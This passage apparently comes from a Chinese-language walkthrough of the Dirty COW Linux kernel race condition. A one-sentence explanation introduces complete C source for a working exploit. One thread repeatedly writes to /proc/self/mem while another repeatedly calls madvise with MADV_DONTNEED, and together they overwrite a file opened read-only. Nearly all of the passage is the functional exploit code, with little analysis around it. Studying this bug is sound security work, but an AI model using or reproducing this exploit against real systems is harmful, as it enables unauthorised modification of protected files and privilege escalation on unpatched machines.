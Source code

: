 经过上面的分析，我们可以构造出下方的程序，当程序打开只读文件后，会开启两个线程，一个线程不断进行写操作，而另一个线程则不断进行MADVISE_DONTNEED操作。  
  
  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/mman.h>
#include <sys/stat.h>

void* target_fmap;
static struct stat target_fst;

void* mem_madvise4dontneed_th(void* data)
{
    while (1) {
        madvise(target_fmap, target_fst.st_size, MADV_DONTNEED);
    }
}
 
void* mem_write_th(void* data)
{
    int fd;

    fd = open("/proc/self/mem", O_RDWR);
    while (1) {
        lseek(fd, (off_t)target_fmap, SEEK_SET);
        write(fd, (char*)data, strnlen((char*)data, target_fst.st_size));
    }
}

int main(int argc,char *argv[])
{
    int target_fd;
    pthread_t th4write, th4dontneed;

    if (argc != 3) {
        printf("useage error! [dirty_cow_example $file_path $string]\n");

        return -1;
    }

    target_fd = open(argv[1], O_RDONLY);
    if (target_fd < 0) {
        printf("open [%s] failed\n", argv[1]);
    }
    fstat(target_fd, &target_fst);

    target_fmap = mmap(NULL, target_fst.st_size ,PROT_READ, MAP_PRIVATE, target_fd, 0);
    if (((signed long)target_fmap) <= 0) {
        printf("mmap [%s] by file id failed\n", argv[1]);
    }

    pthread_create(&th4write, NULL, mem_write_th, argv[2]);
    pthread_create(&th4dontneed, NULL, mem_madvise4dontneed_th, argv[1]);
    pthread_join(th4write, NULL);
    pthread_join(th4dontneed, NULL);

    return 0;
}

```  